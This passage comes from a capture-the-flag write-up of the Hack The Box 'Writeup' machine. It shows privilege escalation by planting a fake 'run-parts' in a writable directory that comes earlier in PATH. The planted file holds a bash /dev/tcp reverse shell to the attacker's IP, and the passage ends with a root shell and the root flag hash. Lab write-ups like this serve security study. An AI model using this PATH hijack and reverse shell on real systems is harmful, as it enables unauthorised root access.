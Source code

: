 ~~~
{% endhighlight %}

On this server, we have "run-parts" in "/bin".
{% highlight shell %}
jkr@writeup:~$ which run-parts
/bin/run-parts
{% endhighlight %}

However, we have several directories in the PATH before "/bin" which is writable for users.
{% highlight shell %}
jkr@writeup:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

jkr@writeup:~$ ls -l /usr/local/ | grep bin
drwx-wsr-x 2 root staff 20480 Apr 19 04:11 bin
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 sbin
{% endhighlight %}

Then, create a reverse shell executable with the name "run-parts" in "/usr/local/sbin".
{% highlight shell %}
jkr@writeup:~$ echo "#! /bin/bash" > /usr/local/bin/run-parts

jkr@writeup:~$ echo "bash -i >& /dev/tcp/10.10.14.30/443 0>&1" >> /usr/local/bin/run-parts

jkr@writeup:~$ chmod +x /usr/local/bin/run-parts

jkr@writeup:~$ cat /usr/local/bin/run-parts
#! /bin/bash
bash -i >& /dev/tcp/10.10.14.30/443 0>&1
{% endhighlight %}

After that, launch the netcat listener and login to Writeup with SSH as jkr user.<br>
We can get a reverse shell as a root user.
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.138] 50656
bash: cannot set terminal process group (2460): Inappropriate ioctl for device
bash: no job control in this shell
root@writeup:/# id
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

As usual, root.txt is in the directory "/root"
{% highlight shell %}
root@writeup:/root# cat root.txt
cat root.txt
eeba47f60b48ef92b734f9b6198d7226
{% endhighlight %}
